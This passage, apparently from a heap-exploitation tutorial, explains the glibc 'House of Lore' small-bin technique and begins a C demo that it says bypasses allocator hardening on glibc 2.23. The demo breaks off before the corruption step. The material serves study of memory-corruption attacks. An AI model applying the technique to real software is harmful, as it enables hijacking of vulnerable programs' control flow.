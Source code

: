 

If we can modify the bk of the last chunk of the small bin to specify the fake chunk of the memory address, and at the same time satisfy the detection of bck-&gt;fd != victim, then we can make the bk of the small bin just construct for us. Fake chunk. In other words, the next time we apply for the small bin, we will assign the fake chunk to the specified location.


## Sample Code


```c

#include <stdio.h>

#include <stdlib.h>

#include <string.h>

#include <stdint.h>



void jackpot(){ puts("Nice jump d00d"); exit(0); }



int main(int argc, char * argv[]){





  intptr_t* stack_buffer_1[4] = {0};

  intptr_t* stack_buffer_2[3] = {0};



  fprintf(stderr, "\nWelcome to the House of Lore\n");

  fprintf(stderr, "This is a revisited version that bypass also the hardening check introduced by glibc malloc\n");

  fprintf(stderr, "This is tested against Ubuntu 14.04.4 - 32bit - glibc-2.23\n\n");



  fprintf(stderr, "Allocating the victim chunk\n");

  intptr_t *victim = malloc(100);

  fprintf(stderr, "Allocated the first small chunk on the heap at %p\n", victim);



  // victim-WORD_SIZE because we need to remove the header size in order to have the absolute address of the chunk

  intptr_t *victim_chunk = victim-2;



  fprintf(stderr, "stack_buffer_1 at %p\n", (void*)stack_buffer_1);

```